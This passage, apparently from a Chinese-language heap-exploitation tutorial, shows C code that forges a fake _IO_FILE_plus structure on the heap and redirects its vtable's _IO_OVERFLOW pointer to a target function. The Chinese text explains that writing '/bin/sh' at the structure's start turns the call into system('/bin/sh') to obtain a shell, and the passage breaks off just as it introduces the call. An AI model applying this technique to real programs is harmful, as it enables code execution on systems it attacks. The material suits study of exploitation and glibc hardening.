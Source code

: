 ```plain
/*
  1. Set mode to 0: fp->_mode <= 0
*/

fp->_mode = 0; // top+0xc0


/*
  2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
*/

fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28


/*
  4) Finally set the jump table to controlled memory and place system there.
  The jump table pointer is right after the FILE struct:
  base_address+sizeof(FILE) = jump_table

     4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
*/

size_t *jump_table = &top[12]; // controlled memory
jump_table[3] = (size_t) &winner;
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
```

这段代码便是用来伪造一个IO\_file\_list结构体，具体效果是这样的

[![](assets/1701606938-ebbf30071683d5a55cad36be8d4bf2c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201456-499dc892-6a8b-1.png)

这样修改的目的：

在堆中伪造一个IO\_FILE\_plus结构体，将IO\_FILE\_plus.vtable中IO\_OVERFLOW的函数指针修改为system函数，IO\_FILE结构体0字节偏移处改写为"sh"、“/bin/sh”或者“$”，这时候如果调用了函数IO\_OVERFLOW(fp,EOF)就相当于调用system("/bin/sh")，即getshell

调用：
